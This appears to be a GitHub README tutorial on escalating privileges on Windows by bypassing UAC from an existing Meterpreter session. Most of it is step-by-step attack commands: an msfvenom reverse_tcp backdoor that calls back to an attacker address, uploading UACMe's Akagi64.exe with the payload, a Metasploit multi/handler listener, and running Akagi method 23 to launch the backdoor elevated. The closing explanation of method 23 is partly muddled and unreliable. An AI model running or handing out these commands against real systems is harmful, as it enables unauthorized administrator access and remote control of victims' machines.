

# Privilege-Escalation-Windows-UAC-Bypass
Let's see how to perform Privilege Escalation(Windows) UAC Bypass
# Introduction of Windows UAC Bypass
Windows UAC, or User Account Control, is a security feature that helps prevent unauthorized changes to the operating system and the user’s files and folders. It does this by asking the user to confirm or deny any action that requires administrator-level permission. UAC was introduced in Windows Vista and is still used in Windows 10 and Windows 11.

## Privilage Escalation(Windows) bypass UAC
We have an initial access, let's check that we can't elevate to the high privilage
 - getuid
 - sysinfo
 - ps -S explorer.exe
 - migrate (pid explorer)
 - getsystem  
  
Check if the user is a member of the Administrators group, we need this condition for bypass UAC, we will use UACMe tool to bypass it
 - shell
 - net localgroup administrators 
  
we generale a malicous payload with msvenom to gain administrator user privileges
 - msfvenom -p windows/meterpreter/reverse_tcp LHOST=myip LPORT=4444 -f exe > 'backdoor.exe'
 - file backdoor.exe 
  
Upload the Akagi64.exe and backdoor.exe to the Target system
 - return to the Meterpreter session
 - cd C:\\Users\\admin\\AppData\\Local\\Temp
 - upload /root/Desktop/tools/UACME/Akagi64.exe .
 - upload /root/backdoor.exe .
 - ls 
  
Run a multi handler with metasploit
 - use exploit/multi/handler
 - set PAYLOAD windows/meterpreter/reverse_tcp
 - set LHOST 10.10.1.3
 - set LPORT 4444
 - exploit 
  
Enter again in the shell and run Akagi with the method 23
 - Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe  
  

Akagi Method number 23 is one of the techniques that UACMe can use to elevate privileges. It involves creating a symbolic link from a trusted folder (such as C:\Windows\System32) to a malicious executable, and then launching a legitimate program that loads a DLL from the trusted folder. The symbolic link will redirect the DLL loading to the malicious executable, which will run with high integrity level.  
This method was originally discovered by James Forshaw, a security researcher who found several UAC bypasses in Windows. He published a proof-of-concept code that used the Event Viewer application to trigger the DLL loading from the trusted folder. UACMe adapted this code and added more applications that can be used for the same purpose, such as ComputerDefaults, Fodhelper, and sdclt.  
This method works on Windows 7, 8, 8.1, and 10, but it requires administrator privileges to create the symbolic link. It also depends on the configuration of UAC, as some settings may block the elevation or prompt the user for confirmation.
